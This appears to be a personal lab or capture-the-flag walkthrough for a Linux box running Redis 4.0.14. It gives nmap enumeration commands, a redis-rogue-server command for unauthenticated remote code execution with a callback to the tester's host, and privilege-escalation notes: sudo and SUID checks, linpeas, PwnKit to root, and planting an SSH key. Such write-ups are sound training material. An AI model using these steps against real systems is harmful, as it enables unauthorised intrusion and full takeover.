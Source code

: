 ### Enumeration
```
IP=192.168.158.176
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,6379 -A $IP
```
#### Ports 
- 22
	- OpenSSH 8.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
- 6379
	- Redis key-value store 4.0.14
- OS: Linux
### Foothold
- 6379
	- 4.x unauthenticated RCE MSF
	- https://github.com/n0b0dyCN/redis-rogue-server
		- Gives us rce
		- ./redis-rogue-server.py --rhost $IP --lhost 192.168.45.195
		- r

### PE
#### Linux
- prudence
	- id
		- uid=1001(prudence) gid=1001(prudence) groups=1001(prudence)
	- sudo -l
		- (root) NOPASSWD: /usr/local/bin/redis-status
			- running it asking for an authorization key
	- uname -a
		- `Linux blackgate 5.8.0-63-generic #71-Ubuntu SMP Tue Jul 13 15:59:12 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux`
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
	- linpeas
		- pwnkit
			- rooted
	- User directory
		- notes.txt
			- protected mode is off
				- https://medium.com/r3d-buck3t/unauthorized-access-via-redis-memory-space-d716e3c6ffad
				- Maybe put our own ssh key in root
### Lessons Learned